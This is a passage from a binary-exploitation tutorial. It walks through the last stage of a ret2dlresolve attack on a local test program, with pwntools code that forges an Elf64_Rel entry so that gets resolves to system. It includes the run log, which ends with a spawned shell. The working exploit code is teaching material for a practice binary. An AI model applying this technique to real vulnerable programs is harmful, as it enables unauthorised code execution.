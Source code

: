 As you can see, we are also placing `/bin/sh` at the end, we will explain why in the next step.

3. Call _dl_resolve with the index pointing to our fake El64_Rel structure.

```python
p.recvuntil(b'xx')
assert(rel_offset % 24 == 0) # We need to assert the address is divisible by Elf64_Rel size (24)
p.info(f'[*] Launching dl_resolve... with rel at offset {hex(int(rel_offset/24))} - real {hex(rel_offset)}')
p.sendline(p64(0x00) * 2 + p64(PIVOTED_STACK+0x50) + p64(RESOLVER) + p64(int(rel_offset/24)) + p64(elf.symbols['main'] + 12))
p.info(f'Final stack addr at {hex(PIVOTED_STACK+0x50)}')
```

### Triggering our new resolved function

So you probably realized at this point that there is no more code after this. We simply jump in main again and it... works?

The reason it works is because, if you remember, we set Elf64_Rel entry to point to `gets`. This means when `gets` is executed
later on again it won't call `gets` but `system`.

```python
   0x000000000040117e <+27>:	lea    rax,[rbp-0x10]
   0x0000000000401182 <+31>:	mov    rdi,rax
   0x0000000000401185 <+34>:	mov    eax,0x0
```

All we need to do is to set rbp-0x10 to our `/bin/sh` call and our shell is popped. That's the reason why the last stack needs to be
set exactly +0x10 from where we left `/bin/sh`.

> Note that `_dl_resolve` will call the resolve function when resolved. We could have simply put `/bin/sh` in `rdi` and it would
> have worked too but in our case that gadget did not exist so we had to take this route. Note that this other approach is
> what pwntools aims to do when using their `ret2dlresolve`.

```bash
[+] Starting local process './test': pid 20091
[*] '/home/litios/ret2libc/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Stack pivoting performed to 0x404f10
[*] [*] REL LIST ADDR: 0x400500
[*] [*] SYM LIST ADDR: 0x4003d0
[*] [*] STR LIST ADDR: 0x400448
[*] [*] Setting "system" at 0x404f20
[*] [*] Setting El64_Sym at 0x404f30
[*]     * String index at: 0x4ad8
[*] [*] Setting El64_Rel at 0x404f40
[*]     * Replacing gets at: 0x404008
[*]     * Fake index is at: 0x324 :: final r_info: 0x32400000007
[*] [O] Structures set
[*] [*] Launching dl_resolve... with rel at offset 0x318 - real 0x4a40
[*] Final stack addr at 0x404f60
[*] **************************************************
[*] All set; that was a nice ride; here is your shell :)
[*] Switching to interactive mode

$ whoami
litios
```

